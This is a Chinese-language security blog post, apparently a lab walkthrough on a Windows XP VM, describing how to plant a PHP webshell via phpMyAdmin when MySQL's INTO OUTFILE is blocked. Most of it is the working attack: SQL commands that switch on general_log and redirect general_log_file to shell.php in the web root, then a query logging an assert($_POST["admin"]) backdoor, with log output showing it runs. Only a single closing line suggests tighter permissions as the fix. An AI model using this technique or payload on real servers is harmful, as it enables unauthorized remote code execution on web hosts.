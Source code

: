 ```yaml
---
date: "2017-03-23T00:00:00Z"
description: 假设我们拥有MySQL的root权限，登录Web端的phpMyAdmin数据库管理控制台，你有多少种方法去getshell？
title: phpMyAdmin新姿势getshell
url: /archivers/2017-03-05/1
---
```



## 0x00 设想

假设我们拥有MySQL的root权限，登录Web端的phpMyAdmin数据库管理控制台，你有多少种方法去getshell？

本文旨在研究新的方法，如果在INTO OUTFILE禁用的情况下，或许会少很多思路了。

这里的禁用是完全（权限）禁用，而不是拦截行为。

## 0x01 常规方法测试

好了，入正题，我目前拥有一台WIN XP虚拟机，上面的服务如下：

* Apache 2.4.23（此环境与本文实现的攻击关系不大）
* PHP 5.4.45（此环境与本文实现的攻击关系不大）
* phpMyAdmin 4.6.6（此环境与本文实现的攻击关系不大）
* MySQL 5.5.53 - MySQL Community Server (GPL) （5.0以上）
* 绝对路径：`C:\phpStu\WWW\`

目前大部分站点都使用了MySQL 5.0以上的版本

我们先尝试一下使用SQL表达式INTO OUTFILE 去getshell：

![enter description here](../../../static/images/dc954250-4f5e-11ec-934f-00d861bf4abb.jpg)

可以看到已经被阻止了 ，具体原因我们在这里讲一下：

错误提示

```
#1290 - The MySQL server is running with the --secure-file-priv option so it cannot execute this statement.
```
![enter description here](../../../static/images/dcd90242-4f5e-11ec-8851-00d861bf4abb.jpg)

secure-file-priv这个全局变量是指定文件夹作为导出文件存放的地方，默认情况下，secure-file-priv是一个空值（NULL）。我们现在设置为网站的根目录，再去尝试使用INTO OUTFILE getshell。

但是在我们使用SQL修改的时候，发现这个值是只读的。

![enter description here](../../../static/images/dd2a46fc-4f5e-11ec-9bc0-00d861bf4abb.jpg)

经过查阅资料知道，这个值只能通过修改MySQL的配置文件来达到修改的目的。

## 0x02 新姿势测试

这些希望破灭以后我并没有沮丧，我相信这些研究都是有用的，有助于我的思考。

于是把目光转向了MySQL的特性，开始测试MySQL全局变量对MySQL本身的影响。

最后我发现MySQL 5.0+的版本会自动创建日志文件，那么在服务运行的情况下修改全局变量也是可以变动文件位置的，但是必须要对生成日志的目录有可读可写的权限。（Linux环境下可能会比较苛刻，因为站点目录是一个用户，MySQL是另外一个用户，权限管控较为严格，主要取决于权限配置是否得当）

OK，不废话，开始测试~~

首先呢，介绍两个MySQL全局变量（general_log、general_log file）

* general log 指的是日志保存状态，一共有两个值（ON/OFF）ON代表开启 OFF代表关闭。
* general log file 指的是日志的保存路径。


我们先查看一下全局变量 ~

![enter description here](../../../static/images/dd69df10-4f5e-11ec-ab91-00d861bf4abb.jpg)

目前是OFF状态，也就是不保存SQL到日志文件中。

![enter description here](../../../static/images/ddac5eee-4f5e-11ec-9911-00d861bf4abb.jpg)

这里强调一下保存过程，general_log是保存每一条你执行的SQL到文件中。目前为OFF，所以文件还没有被创建，我们修改为ON尝试让MySQL创建文件：

![enter description here](../../../static/images/ddedad40-4f5e-11ec-aeb0-00d861bf4abb.jpg)

我们去主机上的目录里看看这个文件是否存在：

![enter description here](../../../static/images/de30bdec-4f5e-11ec-a931-00d861bf4abb.jpg)

贴出文件内容：

```
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
170323 18:08:54	   35 Quit
```

目前是没有什么内容的。我们在控制台随便执行一个SQL：

```
SELECT MD5('admin');
```
![enter description here](../../../static/images/de74f71e-4f5e-11ec-a2df-00d861bf4abb.jpg)

贴出新的日志内容：

```sql
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
170323 18:08:54	   35 Quit	
170323 18:12:55	   36 Connect	root@localhost on 
		   36 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   36 Init DB	mysql
		   36 Query	SHOW MASTER LOGS
		   36 Quit	
		   37 Connect	root@localhost on 
		   37 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   37 Quit	
170323 18:13:21	   38 Connect	root@localhost on 
		   38 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   38 Query	SELECT MD5('admin')
		   38 Quit

```
可以清除的发现，日志文件同步保存了我们所有的SQL语句……猥琐的思路从脑海中喷发而出~ 我们要在站点目录下使用MySQL的日志功能创建一个shell.php

首先查看目录中不存在shell.php这个文件：
![enter description here](../../../static/images/deb692dc-4f5e-11ec-86f7-00d861bf4abb.jpg)

（确保general_log 的值已经为ON，前面已经设置过了）然后设置general_log_file的值为我们一句话木马的绝对路径：

```sql
SET global general_log_file='C:/phpStu/WWW/shell.php';
```

![enter description here](../../../static/images/df0216b2-4f5e-11ec-b34f-00d861bf4abb.jpg)

我们再去看看站点下是否创建了这个文件：



![enter description here](../../../static/images/df450260-4f5e-11ec-9893-00d861bf4abb.jpg)


创建成功，并且文件内容中也有日志的初始值。

我们现在写入一句话~ 强调一下，SQL就是SQL，在保存到日志中的时候不会解析转译符号，不知道大家能否理解，我举一个例子：

我们查询：

```
SELECT '<?php assert($_POST[\'admin\']);?>;
```

保存到日志中也会变成

```
SELECT '<?php assert($_POST[\'admin\']);?>';
```
php这边解析的时候就会报错，因此我们采用单引号与双引号公用的方式实现：

```
SELECT '<?php assert($_POST["admin"]);?>';
PS：$_POST中不用引号也可以~
```

![enter description here](../../../static/images/dfa3cf84-4f5e-11ec-a772-00d861bf4abb.jpg)

我们访问看看~

![enter description here](../../../static/images/dfee1ddc-4f5e-11ec-a0dc-00d861bf4abb.jpg)

已经解析php了，我们同样测试一下是否能执行php代码吧 ~

![enter description here](../../../static/images/e02a9848-4f5e-11ec-b1db-00d861bf4abb.jpg)

贴出日志内容：

```sql
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
		   44 Quit	
170323 18:27:27	   45 Connect	root@localhost on 
		   45 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   45 Init DB	mysql
		   45 Query	SHOW MASTER LOGS
170323 18:27:28	   45 Quit	
		   46 Connect	root@localhost on 
		   46 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   46 Quit	
170323 18:28:01	   47 Connect	root@localhost on 
		   47 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   47 Query	SELECT '<?php assert($_POST["admin"]);?>'
		   47 Quit	
```

## 0x03 总结

在权限把控不严谨的情况下容易出现此类攻击，如果MySQL没有权限在站点根目录下创建文件的话也就不会发生这样的情况了。

修复方案就是权限把控好就可以了 ~

